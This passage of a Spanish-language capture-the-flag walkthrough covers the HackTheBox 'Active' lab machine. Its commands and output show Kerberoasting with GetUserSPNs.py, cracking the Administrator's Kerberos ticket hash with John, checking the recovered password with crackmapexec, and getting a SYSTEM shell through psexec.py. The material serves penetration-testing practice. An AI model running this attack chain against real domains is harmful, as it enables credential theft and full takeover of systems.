 * Ahora veamos si nos lo devuelve:
```bash
GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 14:06:40.351723  2023-05-03 15:50:43.047354             
[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$d04f0a50ccbee2fa9e0c0e172ac69416$73a2993383de0c276b30332cece7b08caf74b0d75f9a71f8ace118d65a41b81c47a8d61600573f6beeea7a6385603713b4f0a9
...
```
Tenemos un hash, vamos a copiarlo y a tratar de descifrarlo.

* Copiamos el hash y lo guardamos en un archivo:
```bash
nano hash
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$d04f0a50ccbee2fa9e0c0e172ac694...
```

* Esta vez, usemos **John** para poder crackear el hash:
```bash
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:18 DONE (2023-05-03 16:51) 0.05428g/s 572056p/s 572056c/s 572056C/s Tickle7..Tibor
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Excelente, ya tenemos la contraseña para el administrador. 

Probemos con **crackmapexec** para ver si la contraseña es correcta:
```bash
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
```

Vamos a loguearnos con **psexec.py**:
```bash
python3 psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file AoqAcowi.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service fNeh on 10.10.10.100.....
[*] Starting service fNeh.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32> whoami
nt authority\system
```
